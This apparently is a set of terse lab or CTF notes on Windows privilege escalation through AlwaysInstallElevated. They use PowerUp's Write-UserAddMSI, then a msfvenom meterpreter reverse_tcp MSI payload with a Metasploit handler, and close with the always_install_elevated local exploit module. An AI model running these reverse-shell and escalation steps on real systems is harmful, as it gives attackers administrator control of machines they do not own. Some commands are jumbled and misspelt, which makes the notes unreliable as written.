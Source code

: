 **Part 1** 
Also from the output of PoweUp.ps1 we can see 
![[always_installed_Elevated-2.png]]
Write-UserAddMSI has been enabled


tpye `Write-UserAddMSI` in cmd

![[Always_installed_privileges-3.png]]

we can see a MSI file has been enabled which increases a privs to admin


Part 2

same in msfconsole 
1) use exploit/multi/handler/
2) set payload msfvenom -p windows/meterpreter/reverse_tcp lhost=IP -f msi  -o setup.msi  
3) run


**go to windows machine locate the file on browser and just run the file no need to save only run**


**IF the shell is low level user and we have a meterpreter session open use 
exploit/local/windows/always_install_elevated set session and run**


